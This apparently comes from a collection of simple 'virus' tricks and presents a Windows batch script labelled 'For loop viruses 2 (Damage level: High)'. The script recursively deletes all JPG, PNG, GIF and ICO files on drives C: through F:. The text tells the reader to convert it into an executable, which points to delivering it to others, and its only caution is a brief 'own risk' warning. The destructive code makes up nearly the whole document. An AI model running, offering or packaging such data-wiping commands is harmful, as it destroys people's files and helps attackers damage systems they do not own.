

# For loop viruses 2   (Damage level :High)

This code will remove all images, wallpapers from your system.
             Warning! -- Try it on your own risk.
Code:
                   for /r c:\ %%y in (*.jpg,*.png,*.gif,*.ico) do del %%y /s/q
                   for /r d:\ %%y in (*.jpg,*.png,*.gif,*.ico) do del %%y /s/q
                   for /r e:\ %%y in (*.jpg,*.png,*.gif,*.ico) do del %%y /s/q
                   for /r f:\ %%y in (*.jpg,*.png,*.gif,*.ico) do del %%y /s/q

      Note: conversion into exe is required.